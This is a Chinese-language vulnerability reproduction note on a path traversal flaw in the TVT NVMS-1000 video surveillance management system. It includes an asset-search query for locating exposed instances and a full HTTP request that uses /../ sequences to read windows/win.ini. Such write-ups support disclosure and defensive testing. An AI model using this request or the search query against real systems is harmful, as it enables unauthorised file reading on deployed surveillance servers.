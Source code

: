 # TVT数码科技 NVMS-1000 路径遍历漏洞

# TVT数码科技 NVMS-1000 路径遍历漏洞

## 漏洞描述

TVT数码科技 TVT NVMS-1000是中国TVT数码科技公司的一套网络监控视频管理系统。 TVT数码科技 TVT NVMS-1000中存在路径遍历漏洞。远程攻击者可通过发送包含/../的特制URL请求利用该漏洞查看系统上的任意文件

## 漏洞影响

```
TVT NVMS-1000
```

## 网络测绘

```
app="TVT-NVMS-1000"
```

## 漏洞复现

登录页面如下



![](/images/202202162301376.png)发送请求包读取文件

```plain
GET /../../../../../../../../../../../../windows/win.ini HTTP/1.1
Host: 
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Connection: close
```

![](/images/202202162302589.png)

